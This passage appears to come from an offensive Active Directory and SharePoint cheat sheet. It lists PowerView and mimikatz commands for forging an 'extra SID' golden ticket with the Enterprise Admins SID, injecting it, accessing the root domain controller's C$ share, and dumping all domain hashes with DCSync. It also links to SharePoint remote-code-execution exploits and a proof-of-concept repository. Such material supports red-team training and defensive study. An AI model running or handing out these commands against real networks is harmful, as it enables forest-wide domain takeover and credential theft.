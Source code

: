 Exploitation example:

Get the SID of the Current Domain using PowerView

```text
Get-DomainSID -Domain current.root.domain.local
```

Get the SID of the Root Domain using PowerView

```text
Get-DomainSID -Domain root.domain.local
```

Create the Enteprise Admins SID

```text
Format: RootDomainSID-519
```

Forge "Extra" Golden Ticket using mimikatz

```text
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi
```

Inject the ticket into memory

```text
kerberos::ptt \path\to\ticket\golden.kirbi
```

List the DC of the Root Domain

```text
dir \\dc.root.domain.local\C$
```

Alternatively, DCsync and dump the hashes using mimikatz 

```text
lsadump::dcsync /domain:root.domain.local /all
```

Detailed Articles:

* [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
* [A Guide to Attacking Domain Trusts](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

### **Exploiting SharePoint**

* [CVE-2019-0604](https://medium.com/@gorkemkaradeniz/sharepoint-cve-2019-0604-rce-exploitation-ab3056623b7d) RCE Exploitation \

  [PoC](https://github.com/k8gege/CVE-2019-0604)

* [CVE-2019-1257](https://www.zerodayinitiative.com/blog/2019/9/18/cve-2019-1257-code-execution-on-microsoft-sharepoint-through-bdc-deserialization)  Code execution through BDC deserialization
* [CVE-2020-0932](https://www.zerodayinitiative.com/blog/2020/4/28/cve-2020-0932-remote-code-execution-on-microsoft-sharepoint-using-typeconverters) RCE using typeconverters \
